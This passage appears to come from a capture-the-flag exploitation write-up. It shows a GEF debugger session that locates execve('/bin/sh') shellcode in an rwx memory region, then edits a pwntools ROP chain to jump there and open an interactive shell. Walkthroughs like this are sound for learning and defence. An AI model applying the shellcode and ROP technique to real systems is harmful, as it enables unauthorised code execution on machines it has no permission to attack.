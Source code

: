 <pre class="language-python"><code class="lang-python"><strong>gef➤  grep 0x6a6848b82f62696e big
</strong>[+] Searching '\x6a\x68\x48\xb8\x2f\x62\x69\x6e' in memory
[+] In './binary'(0x401000-0x402000), permission=rwx
  0x4010f8 - 0x401118  →   "\x6a\x68\x48\xb8\x2f\x62\x69\x6e[...]"
<strong>gef➤  x/20i 0x4010f8
</strong>   0x4010f8:	push   0x68
   0x4010fa:	movabs rax,0x732f2f2f6e69622f
   0x401104:	push   rax
   0x401105:	mov    rdi,rsp
   0x401108:	push   0x1016972
   0x40110d:	xor    DWORD PTR [rsp],0x1010101
   0x401114:	xor    esi,esi
   0x401116:	push   rsi
   0x401117:	push   0x8
   0x401119:	pop    rsi
   0x40111a:	add    rsi,rsp
   0x40111d:	push   rsi
   0x40111e:	mov    rsi,rsp
   0x401121:	xor    edx,edx
   0x401123:	push   0x3b
   0x401125:	pop    rax
   0x401126:	syscall 
   ...
</code></pre>

Perfect, it's stored at 0x4010f8, our rwx region. Now we just need to jump to it in our exploit by replacing the 0xdeadbeef:

```diff
- rop.call(0xdeadbeef)
+ rop.call(0x4010f8)
```

This will jump to the shellcode, and execute from there. Then we will have an interactive shell:

```renpy
p.interactive()
```
